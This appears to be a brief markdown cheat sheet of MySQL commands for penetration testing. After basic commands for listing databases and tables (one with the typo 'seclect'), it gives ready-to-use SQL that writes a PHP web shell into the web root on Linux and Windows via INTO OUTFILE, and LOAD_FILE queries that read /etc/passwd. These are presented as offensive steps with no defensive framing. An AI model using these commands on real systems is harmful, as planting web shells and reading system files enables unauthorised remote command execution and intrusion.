 
### View Databases

```bash
show databases;
```

### Use Database

```bash
use <database>;
```

### View Tables

```bash
show tables;
```

### View Contents of Table

```bash
seclect * from <table_name>;
```

### Write file to system

Linux:

```bash
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

Windows:

```bash
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\cmd.php";
```

### Read file on system

```bash
SELECT LOAD_FILE("/etc/passwd");
SELECT LOAD_FILE("C:\\xampp\\htdocs\\cmd.php");
```